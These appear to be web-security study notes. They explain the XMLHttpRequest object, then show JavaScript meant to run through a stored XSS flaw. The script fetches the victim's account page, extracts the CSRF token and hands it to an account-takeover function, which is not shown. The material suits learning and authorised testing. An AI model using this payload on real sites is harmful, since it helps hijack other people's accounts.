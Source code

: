 1. Create an XMLHttpRequest object
2. Define a callback function
3. Open the XMLHttpRequest object
4. Send a Request to a server

### Example
```javascript
// Create an XMLHttpRequest object  
const xhttp = new XMLHttpRequest();  

// Define a callback function  
xhttp.onload = function() {  
// Here you can use the Data  
}  

// Send a request  
xhttp.open("GET", "ajax_info.txt");  
xhttp.send();
```

## XMLHttpRequest Object Properties

|Property|Description|
|---|---|
|onload|Defines a function to be called when the request is received (loaded)|
|onreadystatechange|Defines a function to be called when the readyState property changes|
|readyState|Holds the status of the XMLHttpRequest. <br>0: request not initialized <br>1: server connection established <br>2: request received <br>3: processing request <br>4: request finished and response is ready|
|responseText|Returns the response data as a string|
|responseXML|Returns the response data as XML data|
|status|Returns the status-number of a request <br>200: "OK" <br>403: "Forbidden" <br>404: "Not Found" <br>For a complete list go to the [Http Messages Reference](https://www.w3schools.com/tags/ref_httpmessages.asp)|
|statusText|Returns the status-text (e.g. "OK" or "Not Found")|

---

### CSRF Account Takeover

### Bypass CSRF Defenses

If we’ve got Stored XSS, we can use it to steal the victim’s cookies when they pass by the vuln while browsing.

2. We’ll need to go to the email change spot—that’s where we’ll grab the CSRF Token from. We’ll send a GET Request --> to extract the CSRF Token, and we’ll do this using AJAX - The XMLHttpRequest Object.

Here’s the Function we’ll use to grab the token value from the victim:
```javascript
var req = new XMLHttpRequest();

req.onreadystatechange = function() {
    if (req.readyState == 4 && req.status == 200) {  
        var htmlresponse = req.responseText;
        var parser = new DOMParser().parseFromString(htmlresponse, "text/html");
        var token = parser.getElementsByName('csrf')[0].value;
        ATO(token);
    }
};

req.open('GET', '/my-account', true);
req.send();
```